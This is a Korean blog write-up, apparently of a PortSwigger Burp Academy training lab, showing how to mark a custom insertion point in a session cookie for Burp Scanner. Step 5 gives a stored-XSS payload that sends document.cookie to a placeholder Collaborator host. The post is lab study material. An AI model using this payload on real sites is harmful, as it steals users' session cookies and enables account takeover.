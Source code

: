```yaml
---
layout: post
title: "Burp Academy-필수스킬: Scanning non-standard data structures"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Essential Skills]
toc: true
last_modified_at: 2025-06-17 21:33:00 +0900
---
```


# 개요
- 랩을 푸는데 있어서 필수적인 스킬 중 하나인 구조화되지 않은 데이터를 스캔하는 법 배운다. 
- 문제 주소: https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing/lab-scanning-non-standard-data-structures
- 취약점 설명페이지: https://portswigger.net/web-security/essential-skills
- 난이도: PRACTITIONER (보통)


# 테크닉 개요
- 기본적으로 Burp Suite는 페이로드를 삽입하는 insertion point를 알아서 처리하지만 특정 데이터의 특정 위치를 insertion point로 지정하고 싶은 경우는 사용자가 설정을 해주어야 한다. 
- 캡쳐한 HTTP 요청 패널 위에서 insertion point로 지정하고 싶은 부분을 선택한 후에, 마우스 오른쪽 버튼을 누르고 'Scan selected insertion point'를 선택하면 해당 부분만 테스트를 진행할 수 있다. 

# 랩 설명
- 이 랩에는 수동으로 찾기 어려운 취약점이 포함되어 있다. 이 취약점은 비표준 데이터 구조에 위치한다. 
- 랩을 풀려면 Burp Scanner의 Insertion Point 기능을 사용하여 취약점을 식별한 다음 수동으로 exploit을 하여 `carlos` 유저를 삭제하라. 
- 다음 크레덴셜을 사용하여 자신의 계정에 로그인할 수 있다: `wiener:peter`

```
This lab contains a vulnerability that is difficult to find manually. It is located in a non-standard data structure.

To solve the lab, use Burp Scanner's Scan selected insertion point feature to identify the vulnerability, then manually exploit it and delete carlos.

You can log in to your own account with the following credentials: wiener:peter
```


# 풀이 
1. 랩에 접속한 후에 주어진 크레덴셜로 로그인한다. 로그인 후에 발급되는 세션쿠키를 살펴보면 다음과 같이 유저의 ID가 들어가 있는 것을 알 수 있다. 

```html
Cookie: session=wiener%3aj6nkGxLWWtgwmM0zrpBVqdrcN2NaaplV
```

URL 디코딩하면 다음과 같이 생겼다. 
```
wiener:j6nkGxLWWtgwmM0zrpBVqdrcN2NaaplV
```

2. HTTP요청에서 세션쿠키의 'wiener'부분을 선택한 후에 마우스 오른쪽 버튼을 누르고 'Scan selected insertion point'를 선택한다. 

![](/images/burp-academy-essential-2-1.png)

3. 스캔 설정 창이 뜬다. 기본설정인 상태로 스캔을 진행한다. 

4. 랩의 의도대로라면 Stored 타입의 XSS가 발견되어야 하지만 뭔가 문제가 있는지 아무런 발견도 없었다. 

(프록시 서버가 없는 환경에서도 시도해보자.)

5. Burp Collaborator 페이로드를 하나 얻어둔다. 그리고 다음과 같이 페이로드를 준비한다. 

```html
'"><svg/onload=fetch(`//YOUR-COLLABORATOR-PAYLOAD/${encodeURIComponent(document.cookie)}`)>:YOUR-SESSION-ID
```

6. 준비한 페이로드를 세션쿠키에 설정하고 서버로 요청을 보낸다. 예상대로라면 Collaborator 탭에 랩 서버에서 Collaborator 서버로 보낸 요청이 보일 것이다. 

![](/images/burp-academy-essential-2-2.png)

7. 그러나 기다려도 아무런 요청이 표시되지 않았다. 

(프록시 서버가 없는 환경에서도 시도해보자. 그러나 아마도 랩 서버의 문제로 보인다..)